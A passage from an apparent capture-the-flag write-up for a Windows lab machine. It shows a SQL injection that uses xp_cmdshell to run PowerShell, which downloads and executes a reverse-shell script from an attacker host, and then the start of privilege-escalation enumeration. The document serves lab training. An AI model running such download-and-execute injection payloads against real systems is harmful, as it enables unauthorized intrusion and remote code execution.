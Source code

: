 Now, we just need to gain a reverse shell. Since there's something obviously blocking us on the machine, normal methods using `nc.exe` might not work. Oddly, running `powershell.exe` results in a 500, indicating that we might have to use the full PATH for it.

The 64-bit version of Powershell doesn't work oddly. I tried the 32-bit version located in `C:\Windows\SysWOW64`, and it worked properly:

{% code overflow="wrap" %}
```powershell
C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe "iex(new-object net.webclient).downloadstring(\"http://10.10.14.11/rev.ps1\")"
```
{% endcode %}

The final query looks like this:

{% code overflow="wrap" %}
```
1;EXEC+XP_cmdshell+'C:\Windows\SysWOW64\WindowsPowershell\v1.0\powershell.exe+"iex(new-object+net.webclient).downloadstring(\"http://10.10.14.11/rev.ps1\")"'--+-
```
{% endcode %}

Take note to rename the shell to `REV.PS1` since the web request sent is in caps for some reason. Afterwards, we would get a shell:

<figure><img src="../../../.gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Write Batch --> Decoder Shell

The box is a well patched machine:

```
PS C:\Windows\system32> systeminfo

Host Name:                 FIGHTER
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User
Registered Organization:   
Product ID:                00252-70000-00000-AA535
Original Install Date:     19/10/2017, 22:31:21
System Boot Time:          08/08/2023, 07:47:24
System Manufacturer:       VMware, Inc.
System Model:              VMware Virtual Platform
System Type:               x64-based PC
Processor(s):              2 Processor(s) Installed.
                           [01]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
                           [02]: AMD64 Family 23 Model 49 Stepping 0 AuthenticAMD ~2994 Mhz
BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
Windows Directory:         C:\Windows
```